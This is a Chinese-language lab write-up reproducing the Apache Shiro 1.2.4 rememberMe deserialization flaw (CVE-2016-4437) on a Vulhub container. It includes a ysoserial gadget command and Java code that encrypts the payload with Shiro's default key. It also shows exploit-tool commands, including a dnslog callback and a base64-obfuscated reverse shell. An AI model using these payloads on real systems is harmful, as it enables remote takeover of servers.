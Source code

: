 # Apache Shiro 1.2.4反序列化漏洞 CVE-2016-4437

## 漏洞描述

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。

Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。

## 漏洞影响

```
Apache Shiro <= 1.2.4
```

## 环境搭建

Vulhub执行如下命令启动一个使用了Apache Shiro 1.2.4的Web服务：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`可使用`admin:vulhub`进行登录。

## 漏洞复现

### 方法1 Shiro默认密钥加密Payload

使用ysoserial生成CommonsBeanutils1的Gadget：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "touch /tmp/success" > poc.ser
```

参考Vulhub，可以使用Shiro内置的默认密钥对Payload进行加密：

```java
package org.vulhub.shirodemo;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.io.DefaultSerializer;

import java.nio.file.FileSystems;
import java.nio.file.Files;
import java.nio.file.Paths;

public class TestRemember {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```

发送rememberMe Cookie，即可成功执行`touch /tmp/success`。

### 方法2 命令行 Shiro_exploit

此处使用[Shiro_exploit](https://github.com/insightglacier/Shiro_exploit)进行复现，首先，检测漏洞是否存在：

```
python shiro_exploit.py -t 3 -u http://192.168.174.128:8080 -p "ping -c 2 shiro.xxxxx.ceye.io"
```

dnslog平台接收到请求，证明漏洞存在。

![image-20220301110544180](images/202203011105220.png)

执行反弹shell语句：

```
python shiro_exploit.py -t 3 -u http://192.168.174.128:8080 -p "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}"
```

监听9999端口，接收反弹shell：

![image-20220301095455181](images/202203010954296.png)

## 开源POC/EXP

- https://github.com/sv3nbeast/ShiroScan
- https://github.com/fupinglee/ShiroScan
- https://github.com/wyzxxz/shiro_rce_tool
- https://github.com/feihong-cs/ShiroExploit-Deprecated

